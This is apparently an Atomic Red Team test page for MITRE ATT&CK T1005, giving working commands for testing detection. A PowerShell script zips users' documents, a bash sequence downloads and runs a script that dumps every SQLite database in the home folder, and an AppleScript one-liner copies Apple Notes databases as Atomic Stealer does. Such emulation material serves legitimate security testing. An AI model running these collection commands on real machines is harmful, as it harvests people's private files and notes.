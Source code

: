 # T1005 - Data from Local System
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1005)
<blockquote>

Adversaries may search local system sources, such as file systems, configuration files, local databases, or virtual machine files, to find files of interest and sensitive data prior to Exfiltration.

Adversaries may do this using a [Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059), such as [cmd](https://attack.mitre.org/software/S0106) as well as a [Network Device CLI](https://attack.mitre.org/techniques/T1059/008), which have functionality to interact with the file system to gather information.(Citation: show_run_config_cmd_cisco) Adversaries may also use [Automated Collection](https://attack.mitre.org/techniques/T1119) on the local system.


</blockquote>

## Atomic Tests

- [Atomic Test #1 - Search files of interest and save them to a single zip file (Windows)](#atomic-test-1---search-files-of-interest-and-save-them-to-a-single-zip-file-windows)

- [Atomic Test #2 - Find and dump sqlite databases (Linux)](#atomic-test-2---find-and-dump-sqlite-databases-linux)

- [Atomic Test #3 - Copy Apple Notes database files using AppleScript](#atomic-test-3---copy-apple-notes-database-files-using-applescript)


<br/>

## Atomic Test #1 - Search files of interest and save them to a single zip file (Windows)
This test searches for files of certain extensions and saves them to a single zip file prior to extraction.

**Supported Platforms:** Windows


**auto_generated_guid:** d3d9af44-b8ad-4375-8b0a-4bff4b7e419c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| starting_directory | Path to starting directory for the search | Path | C:&#92;Users|
| output_zip_folder_path | Path to directory for saving the generated zip file | Path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1005|
| file_extensions | List of file extensions to be searched and zipped, separated by comma and space | string | .doc, .docx, .txt|


#### Attack Commands: Run with `powershell`! 


```powershell
$startingDirectory = "#{starting_directory}"
$outputZip = "#{output_zip_folder_path}"
$fileExtensionsString = "#{file_extensions}" 
$fileExtensions = $fileExtensionsString -split ", "

New-Item -Type Directory $outputZip -ErrorAction Ignore -Force | Out-Null

Function Search-Files {
  param (
    [string]$directory
  )
  $files = Get-ChildItem -Path $directory -File -Recurse | Where-Object {
    $fileExtensions -contains $_.Extension.ToLower()
  }
  return $files
}

$foundFiles = Search-Files -directory $startingDirectory
if ($foundFiles.Count -gt 0) {
  $foundFilePaths = $foundFiles.FullName
  Compress-Archive -Path $foundFilePaths -DestinationPath "$outputZip\data.zip"

  Write-Host "Zip file created: $outputZip\data.zip"
  } else {
      Write-Host "No files found with the specified extensions."
  }
```

#### Cleanup Commands:
```powershell
Remove-Item -Path  $outputZip\data.zip -Force
```





<br/>
<br/>

## Atomic Test #2 - Find and dump sqlite databases (Linux)
An adversary may know/assume that the user of a system uses sqlite databases which contain interest and sensitive data. In this test we download two databases and a sqlite dump script, then run a find command to find & dump the database content.

**Supported Platforms:** Linux


**auto_generated_guid:** 00cbb875-7ae4-4cf1-b638-e543fd825300





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_url | url of remote payload | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1005/src|


#### Attack Commands: Run with `bash`! 


```bash
cd $HOME
curl -O #{remote_url}/art
curl -O #{remote_url}/gta.db
curl -O #{remote_url}/sqlite_dump.sh
chmod +x sqlite_dump.sh
find . ! -executable -exec bash -c 'if [[ "$(head -c 15 {} | strings)" == "SQLite format 3" ]]; then echo "{}"; ./sqlite_dump.sh {}; fi' \;
```

#### Cleanup Commands:
```bash
rm -f $HOME/.art
rm -f $HOME/gta.db
rm -f $HOME/sqlite_dump.sh
```



#### Dependencies:  Run with `bash`!
##### Description: Check if running on a Debian based machine.
##### Check Prereq Commands:
```bash
if [ -x "$(command -v sqlite3)" ]; then echo "sqlite3 is installed"; else echo "sqlite3 is NOT installed"; exit 1; fi
if [ -x "$(command -v curl)" ]; then echo "curl is installed"; else echo "curl is NOT installed"; exit 1; fi
if [ -x "$(command -v strings)" ]; then echo "strings is installed"; else echo "strings is NOT installed"; exit 1; fi
```
##### Get Prereq Commands:
```bash
if grep -iq "debian\|ubuntu\|kali\|mint" /usr/lib/os-release; then apt update && apt install -y binutils curl sqlite3; fi
if grep -iq "rhel\|fedora\|centos" /usr/lib/os-release; then yum update -y && yum install -y binutils curl sqlite-devel; fi
```




<br/>
<br/>

## Atomic Test #3 - Copy Apple Notes database files using AppleScript
This command will copy Apple Notes database files using AppleScript as seen in Atomic Stealer.

**Supported Platforms:** macOS


**auto_generated_guid:** cfb6d400-a269-4c06-a347-6d88d584d5f7





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| destination_path | Specify the path to copy the database files into. | path | /private/tmp|


#### Attack Commands: Run with `sh`! 


```sh
osascript -e 'tell application "Finder"' -e 'set destinationFolderPath to POSIX file "#{destination_path}"' -e 'set notesFolderPath to (path to home folder as text) & "Library:Group Containers:group.com.apple.notes:"' -e 'set notesFolder to folder notesFolderPath' -e 'set notesFiles to {file "NoteStore.sqlite", file "NoteStore.sqlite-shm", file "NoteStore.sqlite-wal"} of notesFolder' -e 'repeat with aFile in notesFiles' -e 'duplicate aFile to folder destinationFolderPath with replacing' -e 'end' -e 'end tell'
```

#### Cleanup Commands:
```sh
rm "#{destination_path}/NoteStore.sqlite*"
```





<br/>
